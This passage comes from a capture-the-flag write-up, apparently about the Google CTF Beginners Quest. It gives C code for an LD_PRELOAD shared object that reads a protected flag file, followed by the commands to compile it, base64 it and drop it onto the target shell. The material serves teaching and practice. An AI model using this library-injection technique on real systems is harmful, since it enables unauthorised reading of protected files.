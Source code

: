 This should work because `execvp` takes the extern variable `environ` as the environment. Also, `/usr/bin/id` is a dynamically-linked executable and the dynamic loader will honor the `LD_PRELOAD` environment variable.

The shared object loaded in `LD_PRELOAD` should help us read the flag. This simple code `readflag.c` does that.

<div class="filename"><span>readflag.c</span></div>
```c
#include <stdio.h>

void _init() {
	char flag[20]; // the flag is 19 bytes
	FILE *f;
	f = fopen("/home/adminimum/flag", "r");
	fgets(flag, 20, f);
	puts(flag);
}

```

There's one small caveat—the online shell doesn't have `gcc`. I've to compile `readflag.c` locally, compress it, and transfer it over to the online shell through `base64`.

At the local machine, do the following:

```
# gcc -fPIC -shared -nostartfiles -o readflag.so readflag.c
# gzip readflag.so
# base64 readflag.so.gz | tr -d '\n' && echo
```

At the online shell, do the following:

```
$ echo H4sIC...AAA= > /tmp/readflag.so.gz.b64
$ base64 -d < /tmp/readflag.so.gz.b64 > /tmp/readflag.so.gz
$ gunzip /tmp/readflag.so.gz
```
Let's give it a shot.

![flag](/assets/images/posts/google-ctf-beginners-quest-part-2/dfba227c.png)

